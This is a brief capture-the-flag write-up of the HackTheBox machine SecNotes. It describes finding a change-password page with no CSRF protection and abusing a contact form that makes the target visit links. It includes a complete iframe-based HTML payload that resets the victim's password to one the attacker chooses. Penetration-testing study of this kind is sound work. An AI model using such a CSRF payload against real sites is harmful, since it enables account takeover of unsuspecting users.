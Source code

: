 

Register account, test/Password; login

Change password, csrf. 

also found the tyler@secnotes.htb

![image-20221022214822699](./images/image-20221022214822699.png)

/contact.php, send url  then the target access the url.

check csrf.

```bash
# html page, test csrf, change password.
<html>
    <iframe src="http://10.129.25.214/change_pass.php?password=Password&confirm_password=Password&submit=submit"> </iframe>
</html>

```

send to contact,  http://10.10.14.78/test.html; 

got access back.
